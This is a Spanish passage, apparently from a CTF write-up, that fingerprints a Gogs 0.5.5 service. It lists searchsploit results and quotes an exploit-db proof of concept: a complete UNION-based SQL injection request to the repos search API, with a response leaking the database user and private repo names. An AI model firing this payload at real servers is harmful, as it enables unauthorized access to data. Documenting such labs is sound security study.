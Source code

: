 El servicio es GoGits, con una versión 0.5.5

Buscando vulnerabilidades en exploit-db aparace lo siguiente:

```null
searchsploit gogs
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Gogs - 'label' SQL Injection                                                                                                                                                   | multiple/webapps/35237.txt
Gogs - 'users'/'repos' '?q' SQL Injection                                                                                                                                      | multiple/webapps/35238.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Examinando el segundo recurso se puede ver una Prueba de Concepto con una inyección SQL

```null
searchsploit -x multiple/webapps/35238.txt

Proof of Concept
================
Request:
http://www.example.com/api/v1/repos/search?q=%27)%09UNION%09SELECT%09*%09FROM%09
(SELECT%09null)%09AS%09a1%09%09JOIN%09(SELECT%091)%09as%09u%09JOIN%09(SELECT%09
user())%09AS%09b1%09JOIN%09(SELECT%09user())%09AS%09b2%09JOIN%09(SELECT%09null)
%09as%09a3%09%09JOIN%09(SELECT%09null)%09as%09a4%09%09JOIN%09(SELECT%09null)%09
as%09a5%09%09JOIN%09(SELECT%09null)%09as%09a6%09%09JOIN%09(SELECT%09null)%09as
%09a7%09%09JOIN%09(SELECT%09null)%09as%09a8%09%09JOIN%09(SELECT%09null)%09as%09
a9%09JOIN%09(SELECT%09null)%09as%09a10%09JOIN%09(SELECT%09null)%09as%09a11%09
JOIN%09(SELECT%09null)%09as%09a12%09JOIN%09(SELECT%09null)%09as%09a13%09%09JOIN
%09(SELECT%09null)%09as%09a14%09%09JOIN%09(SELECT%09null)%09as%09a15%09%09JOIN
%09(SELECT%09null)%09as%09a16%09%09JOIN%09(SELECT%09null)%09as%09a17%09%09JOIN
%09(SELECT%09null)%09as%09a18%09%09JOIN%09(SELECT%09null)%09as%09a19%09%09JOIN
%09(SELECT%09null)%09as%09a20%09%09JOIN%09(SELECT%09null)%09as%09a21%09%09JOIN
%09(SELECT%09null)%09as%09a22%09where%09(%27%25%27=%27

Response:
{"data":[{"repolink":"bluec0re/test"},{"repolink":"bluec0re/secret"},{"repolink"
:"bluec0re/root@localhost"}],"ok":true}

```
